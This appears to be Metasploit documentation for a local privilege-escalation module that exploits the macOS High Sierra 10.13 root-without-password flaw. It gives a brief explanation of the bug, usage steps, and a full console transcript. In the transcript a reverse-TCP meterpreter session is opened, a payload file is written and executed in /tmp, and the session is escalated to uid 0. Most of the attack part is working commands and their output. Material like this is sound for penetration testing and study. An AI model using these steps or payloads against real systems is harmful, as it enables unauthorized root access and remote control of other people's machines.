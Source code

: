 ## Vulnerable Application
This vulnerability works against OSX 10.13 (High Sierra).  Early
research (https://objective-see.com/blog/blog_0x24.html) suggests that
the vulnerability is the result of multiple errors ultimately started by
an incorrect return value from triggered by the funtion
`od_verify_crypt_password` rteturning true even if the account is
disabled.  The subsequent function calls appear to alidate and create
the password, though there is still a lot of research into the bug and
these results should be verified once more research has been published.

## Verification Steps
1. Get a session on a vulnerable system
2. `use exploit/osx/local/root_no_password`
3. `set lhost <IP>`
4. `set lport <PORT>`
5. `set session <session_id>`
6. `run`

## Scenarios
### Example Run
```
msf exploit(psexec) > use exploit/multi/handler
msf exploit(handler) > set payload osx/x64/meterpreter_reverse_tcp
payload => osx/x64/meterpreter_reverse_tcp
msf exploit(handler) > set lhost <MSF_IP>
lhost => <MSF_IP>
msf exploit(handler) > set lport 4567
lport => 4567
msf exploit(handler) > run

[*] Started reverse TCP handler on <MSF_IP>:4567 
httpserver[*] Meterpreter session 1 opened (<MSF_IP>:4567 -> <OSX_IP>:49347) at 2017-11-29 07:28:32 -0600

meterpreter > sysinfo
Computer     : msfusers-Mac.local
OS           :  (MacOSX 17.0.0)
Architecture : x64
Meterpreter  : x64/osx
meterpreter > getuid
Server username: uid=501, gid=20, euid=501, egid=20
meterpreter > background
[*] Backgrounding session 1...
msf exploit(handler) > use exploit/osx/local/root_no_password 
msf exploit(root_no_password) > show options

Module options (exploit/osx/local/root_no_password):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (osx/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Mac OS X 10.13.1 High Sierra x64 (Native Payload)


msf exploit(root_no_password) > set lhost <MSF_IP>
lhost => <MSF_IP>
msf exploit(root_no_password) > set lport 4562
lport => 4562
msf exploit(root_no_password) > set session 1
session => 1
msf exploit(root_no_password) > run

[*] Started reverse TCP handler on <MSF_IP>:4562 
[*] Writing payload file as '/tmp/cinbvsmrmyxw'
[*] Meterpreter session 2 opened (<MSF_IP>:4562 -> <OSX_IP>:62522) at 2017-11-29 07:29:56 -0600
[*] <OSX_IP> - Meterpreter session 2 closed.  Reason: Died


[*] Executing payload file as '/tmp/cinbvsmrmyxw'
[!] This exploit may require manual cleanup of '/tmp/cinbvsmrmyxw' on the target

[-] Invalid session identifier: 2
msf exploit(root_no_password) > 
msf exploit(root_no_password) > 
msf exploit(root_no_password) > run

[*] Started reverse TCP handler on <MSF_IP>:4562 
[*] Writing payload file as '/tmp/imtjkakowanv'
[*] Executing payload file as '/tmp/imtjkakowanv'
[*] Meterpreter session 3 opened (<MSF_IP>:4562 -> <OSX_IP>:49348) at 2017-11-29 07:30:53 -0600
[+] Deleted /tmp/imtjkakowanv

meterpreter > sysinfo
Computer     : msfusers-Mac.local
OS           :  (MacOSX 17.0.0)
Architecture : x64
Meterpreter  : x64/osx
meterpreter > getuid
Server username: uid=0, gid=20, euid=0, egid=20
meterpreter >
```
